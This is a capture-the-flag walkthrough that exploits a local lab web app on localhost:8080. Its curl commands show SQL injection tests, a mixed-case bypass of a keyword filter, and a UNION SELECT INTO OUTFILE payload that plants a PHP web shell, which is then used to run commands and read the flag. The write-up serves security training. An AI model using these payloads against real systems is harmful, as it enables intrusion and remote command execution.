# Walkthrough: Noisy Echidna Ads

Please see [See BUILD_INSTRUCTIONS.md](noisy_ctf/BUILD_INSTRUCTIONS.md) befoce commencing the challenge.


## Step 1: Web App on port 8080

1. Access the challenge at `http://localhost:8080`
2. Have a look at search box and parameters 
3. Try searching for "Echidna"


Results are returned for Echidna.




-------
# Testing tools
We have the option to use burpsuite or curl to run our testing.
We do so to ensure consistent results. 

# Note all further testing is completed using curl
------

## Step 2: Test for SQLi Vulnerability

### Confirm baseline response with standard query. In this case we search for "Bicycle": 

Baseline result from search.

```bash
curl -v -G "http://localhost:8080/index.php" --data-urlencode "query=Bicycle"
```



#### Now we can check some conditions against our baseline response.

#### Test with OR conditional
We can now test a TRUTHY condition with **OR '1'='1**
```bash
curl -v -G "http://localhost:8080/index.php" --data-urlencode "query=Bicycle' OR '1'='1' -- "
```
We see a change from our baseline. It appears all results are appearing. We able to SQL inject.



#### Test with AND conditional 
We can now test a FALSE condition with **AND '1'='2**
```bash
curl -v -G "http://localhost:8080/index.php" --data-urlencode "query=Bicycle' AND '1'='2 -- "
```
We see that no DB results are return in response which is expected give the FALSE conditional state.

We can now move on to attempt profitable SQLi injections.




## Step 3: Try SQL injections that may yeild results

### Lets start with attempting a **UNION SELECT** attack with **' UNION SELECT 1,2 -- **

```bash
curl -v -G "http://localhost:8080/index.php" --data-urlencode "query=' UNION SELECT 1,2 -- "
```


The attempt gives us some useful information. We can see that it was  **"Blocked: suspicious query detected"**



This likely means the backend has processed the request but then bocked it. 

We can confirm this by comparing to a bad (incorrect syntax) query to see
what happens.

```bash
curl -v -G "http://localhost:8080/index.php" --data-urlencode "query=' BAD QUERY 1,2 -- "
```
We note that it returns **Query error**.
This confirms that our UNION request was filtered or blocked in some way, **before** being processed in the DB.
We can say with confidence that some sort of WAF (Web application filter exists) likely is in place.



## Step 4: Overcoming the WAF

We could try running the query in all lower case


### Try all lower case for **union select**


```bash
curl -v -G "http://localhost:8080/index.php" --data-urlencode "query=' union select 1,2 -- "
```
We note this is also filtered/blocked



### Try mixed case query **uNion Select**. The mixed case may defeat the WAF if not well implimented.

```bash
curl -v -G "http://localhost:8080/index.php" --data-urlencode "query=' uNion Select 1,2 -- "
```
**Success!!** 
That works, a response from DB is returned.
We have bypassed the filter by using mixed (toggle) casing.




## Step 4: Exploit the UNION vulnerability 

### INTO OUTFILE 
We know that the app is running nginx.
With INTO OUTFILE it may be possible to write a file to the web app path html path, var/www/html path.

With this hypothesis, we could inject a file that allows as to hit the uri of the file.
We can then potentially gain access to the underlying OS and run commands if the php executed.

**PAYLOAD**
```php
<?php system(\$_GET['c']); ?>
```

**Here is the command we run, with the malicious .php file.**

```bash
curl -v -G "http://localhost:8080/index.php" --data-urlencode "query=' UnION SeLECT \"<?php system(\$_GET['c']); ?>\", \"\" InTO OuTFILE '/var/www/html/shell.php' -- "
```

It appears to have written to file given no error message or block returned.





**Note that MySQL wont allow overwrite of file** 
If you make an error with the payload, you will need a new file name as you wont be able to overwrite (delete) the existing files written to var/www/html.

### Test and confirm exploit with simple command:

```bash
curl -v "http://localhost:8080/shell.php?c=whoami"
```

**Success**. We have have command on the OS as www-data user.


## Step 5. Explore Folder(s)

View files in folder
```bash
curl -v "http://localhost:8080/shell.php?c=ls"
```



Extract the flag at flag.txt.We note that it seems to be encoded.

```bash
curl -v "http://localhost:8080/shell.php?c=cat%20flag.txt"
```


## Step 6. Extracting contents to obtain flag.
The flag is encoded.
We can extract flag to get cleartext with base64

```bash
echo -n "Tk9JU1lfRUNISUROQXtXZWxsIGRvbmUgTm9pc3kgRWNoaWRuYX0=" | base64 --decode
```
Well done!
Mission complete. Flag --> **Well done Noisy Echidna**



